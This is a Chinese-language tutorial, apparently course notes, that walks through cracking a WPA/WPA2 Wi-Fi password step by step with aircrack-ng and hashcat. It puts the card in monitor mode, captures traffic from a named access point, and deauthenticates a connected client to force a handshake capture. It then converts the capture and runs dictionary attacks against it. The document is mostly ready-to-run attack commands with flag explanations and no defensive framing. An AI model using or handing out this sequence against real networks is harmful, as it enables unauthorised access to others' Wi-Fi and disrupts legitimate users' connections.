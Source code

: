 # WPA-hashcat渗透

严重声明:cpu加速都是幌子，aricrack-ng也用cpu，不然用爱跑的？

## 1.hashcat介绍

Hashcat系列软件是比较牛逼的密码破解软件,HashCat主要分为三个版本：Hashcat、oclHashcat-plus、oclHashcat-lite。

这三个版本的主要区别是：

HashCat只支持CPU破解。

oclHashcat-plus支持使用GPU破解多个HASH，并且支持的算法高达77种

oclHashcat-lite只支持使用GPU对单个HASH进行破解，支持的HASH种类仅有32种，但是对算法进行了优化，可以达到GPU破解的最高速度。

如果只有单个密文进行破解的话，推荐使用oclHashCat-lite。

## 2.渗透姿势

### 1.查看网卡

```
ip a
```

### 2.开启监听模式

```
airmon-ng start wlan0
```

### 3.扫描wifi

```
airodump-ng wlan0mon
```

### 4.抓包保存

```
airodump-ng wlan0mon -c 1 --bssid D8:24:BD:79:18:0B -w wpa-1 
-c:指定信道
--bssid:AP的MAC地址
-w:保存抓包结果
```

### 5.进行冲突模式攻击

将设备踢下线，当用户重连的时候，就会抓到握手包

```
aireplay-ng -0 5 -a D8:24:BD:79:18:0B -c 18:CC:18:C5:D5:64 wlan0mon
-0：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
-a:设置 ap 的 mac
-c：设置已连接的合法客户端的 mac
```

### 6.重新连接wifi

获得握手包，用于破解

![image-20211201201536769](https://image.201068.xyz/assets/image-20211201201536769.png)

### 7.生成hccap文件

```
aircrack-ng wpa-1-01.cap -j wpahaccap
 -j <file>  : create Hashcat v3.6+ file (HCCAPX)
 -J <file>  : create Hashcat file (HCCAP)
```

### 8.破解

```
hashcat -m 2500 wpahaccap.hccapx /root/wifi/passwd.txt
-m:指定破解类型
2500:wpa/wpa2
```

![image-20211201201625121](https://image.201068.xyz/assets/image-20211201201625121.png)

### 9.再次查看密码

```
hashcat -m 2500 wpahaccap.hccapx --show
```

### 10.删除之前破解成功的记录

```
rm ~/.hashcat/hashcat.potfile
```

### 11.使用大字典

根本没有加速

```
hashcat -m 2500 wpahaccap.hccapx /root/wifi/pwd.txt
```

![image-20211201201735564](https://image.201068.xyz/assets/image-20211201201735564.png)

![image-20211201201746153](https://image.201068.xyz/assets/image-20211201201746153.png)

## 3.课后小结

参考：课后笔记